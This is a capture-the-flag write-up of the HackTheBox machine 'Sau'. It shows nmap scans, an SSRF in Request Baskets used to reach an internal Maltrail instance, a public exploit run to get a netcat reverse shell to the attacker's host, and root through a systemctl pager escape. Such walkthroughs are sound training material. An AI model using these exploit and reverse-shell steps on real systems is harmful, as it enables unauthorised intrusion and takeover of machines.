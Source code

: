 ```yaml
---
title: HackTheBox - Sau
date: 2023-11-20 00:00:01
tags: [htb, ctf, writeup, linux]
category: writeups
description: htb sau writeup
---
```


# Tools

- python
- netcat


<br>

## Getting User

### Nmap


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Sau]
└─$ sudo nmap -oA nmap/initial_scan 10.129.229.26
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-22 14:20 EST
Nmap scan report for 10.129.229.26
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 13.68 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Sau]
└─$ sudo nmap -sC -sV -p 22,80,5555 -oA nmap/default_scan 10.129.229.26
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-22 14:21 EST
Nmap scan report for 10.129.229.26
Host is up (0.27s latency).

PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp   filtered http
5555/tcp closed   freeciv
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.54 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



<br>

### Foothold

Visiting *http://10.129.229.26:55555*, I find its a web app running *Request Baskets v1.2.1*.
Which is vulnerable to SSRF. *(CVE-2023-27163)*
It appears we can change the Configuration Settings of our basket to the filtered *port 80*.


Set Foward URL to *http://127.0.0.1* and Enable *Insecure TLS*, *Proxy Response* and *Expand Forward Path*.
Send a request to the bucket's endpoint eg *http://10.129.229.26:55555/gn9uwun*

It forwards us to port 80, which is running *Mailtrail v0.53*.

Used this PoC I found in github *https://github.com/spookier/Maltrail-v0.53-Exploit*


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Sau/files/Maltrail-v0.53-Exploit]
└─$ python3 exploit.py 10.10.14.107 1234 http://10.129.229.26:55555/gn9uwun      
Running exploit on http://10.129.229.26:55555/gn9uwun/login

┌──(kali㉿kali)-[~/HTB/Sau]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.107] from (UNKNOWN) [10.129.229.26] 40456
$ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Get the flag

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ cd ~
cd ~
$ ls
ls
user.txt
$ cat user.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



<br>

## Getting Root

### Information Gathering

Upgrade to an interactive shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We seem to have sudo permission to see *status* of *trail.service*


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
puma@sau:~$ sudo -l               
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


<br>

### Privilege Escalation

Execute the command that this will invoke a pager.
If we type *!sh* this will spawn a root shell *(https://gtfobins.github.io/gtfobins/systemctl/)*

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo systemctl status trail.service
sudo systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


